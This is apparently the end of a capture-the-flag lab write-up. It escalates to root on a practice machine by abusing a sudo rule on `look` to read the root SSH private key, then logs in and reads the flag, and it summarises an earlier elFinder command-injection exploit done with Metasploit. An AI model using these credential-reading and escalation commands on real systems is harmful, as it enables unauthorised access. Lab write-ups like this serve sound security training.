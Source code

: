 Here’s a GTFOBins entry for the `look` command:

[GTFOBins - look](https://gtfobins.github.io/gtfobins/look/)

By using the `look` command with `sudo`, we can read sensitive files. To escalate privileges, we execute the following:

```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

This command attempts to read the `/root/.ssh/id_rsa` file using `look`. The output will be the private SSH key for the root user. If we can get this key, we will have access to the root account.

Once executed, we get the SSH private key for the root user:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
```

With this private key, we now have access to the root account. Let’s use this key to login as root.

```bash
ssh -i /tmp/id_rsa root@lookup.thm
```

Upon successful login, we gain root access.

### Root Flag

Now that we have root access, we can navigate to the root user’s home directory to retrieve the root flag.

```bash
root@lookup:~# cat /root/flag.txt
38375fb4dd8baa2b2039ac03d92b820e
```

### Summary of the Exploit

1. We identified a vulnerability in the `elFinder` web application on the target machine.
2. We used Metasploit to exploit the `elFinder PHP Connector exiftran Command Injection` vulnerability.
3. Once we got a Meterpreter shell, we escalated to a fully interactive shell and performed a user enumeration to identify the user `think`.
4. We exploited a `sudo` misconfiguration that allowed the `think` user to run `/usr/bin/look` as root.
5. Using the `look` command and a path manipulation technique, we obtained the private SSH key of the root user.
6. Finally, we logged in as root and retrieved the root flag.
